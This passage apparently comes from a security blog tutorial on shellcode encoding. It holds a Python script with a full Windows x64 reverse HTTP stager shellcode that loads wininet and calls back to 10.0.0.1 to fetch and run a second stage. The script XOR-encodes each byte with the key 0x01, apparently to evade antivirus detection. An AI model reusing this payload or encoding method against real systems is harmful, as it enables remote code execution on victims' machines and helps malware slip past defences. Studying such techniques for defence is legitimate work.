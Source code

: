     raw_data = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x56\x1f\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x35\x6e\x6b\x4f\x00\x03\x9a\xf4\xbb\xe0\xdd\x3e\x6c\x87\xa5\x05\x4b\x82\x51\x2f\xd5\x68\x67\x15\xd6\xfd\x10\xf3\xa5\x90\x60\xea\xba\xfe\x1f\x26\x2d\x04\xf3\xec\xcb\xd4\x73\x94\x57\x98\x5e\xde\xec\xb8\x3e\xd9\x4e\x32\xcc\x38\xe3\x94\x06\x1d\x73\x2d\xb3\xd4\x62\x26\xca\x5a\xae\x52\xef\xf4\xc0\x81\x77\x97\xce\xd5\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x34\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x38\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x35\x2e\x31\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x34\x2e\x30\x3b\x20\x47\x54\x42\x37\x2e\x34\x3b\x20\x49\x6e\x66\x6f\x50\x61\x74\x68\x2e\x32\x29\x0d\x0a\x00\x61\xe2\x49\x6c\xb5\x31\x92\x20\x19\xc9\xaa\x69\x2b\xbc\xc1\x8b\x28\xf9\x80\x6c\x92\xac\xba\xea\x06\x32\x05\xc2\x38\x1b\x0f\x3e\x85\x39\xc3\x8a\x12\x21\xe7\x51\x80\x80\x30\x02\xe7\xcc\x8f\x34\x38\xd1\xe2\x48\xf0\x28\x21\xe9\xd7\xa6\x47\x58\x0e\x48\x8c\x1d\x16\xad\x7d\xad\xbd\xa4\x40\x58\x4b\x5f\x3d\xa9\xd0\x55\x19\xdf\x43\xf1\x69\xba\x0c\x81\x6f\x91\x72\x94\xc6\x65\xb4\x8d\x5b\x04\x58\x68\x72\x93\xc3\xbc\x46\x11\x0b\xf8\x50\x26\x52\x15\x49\xdb\x36\x0d\x75\x5d\x81\x5d\x47\x1b\x0f\x5e\x25\x50\x34\x23\xc1\x69\xfd\x22\x75\x5d\xea\xa4\x2e\x40\x98\x12\x72\x8e\xd4\xde\xef\xf2\x42\xdd\x08\x6b\xa3\x74\x13\x6c\xa9\x82\xfc\x25\xec\xe6\x22\xea\x9b\x4b\x58\xa8\x85\x67\xa1\x78\x1e\xaa\x07\x31\xd7\xcf\x4a\x74\xf1\x30\x63\x3e\x0e\x5c\x17\x53\x2f\x69\x67\x92\xf8\x28\xfe\xd6\x6f\xce\x06\xc5\xdd\xb2\x0d\x71\xf4\xda\x18\x5e\x26\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x30\x2e\x30\x2e\x30\x2e\x31\x00\x58\x56\x3d\xd2"
    
    new_shellcode = []
    for opcode in raw_data:
            new_opcode = (ord(opcode) ^ 0x01)
            new_shellcode.append(new_opcode)
    
    
    print "".join(["\\x{0}".format(hex(abs(i)).replace("0x", "")) for i in new_shellcode])
    
    

This script will read each opcode of our shellcode then it will xor it with
the byte 0x01 which is our key in this case, then it will append each encoded
opcode into a new list and finally, it will print it as a shellcode like the
following:

![](https://shells.systems/wp-content/uploads/2020/07/shellcode-encoder.png)
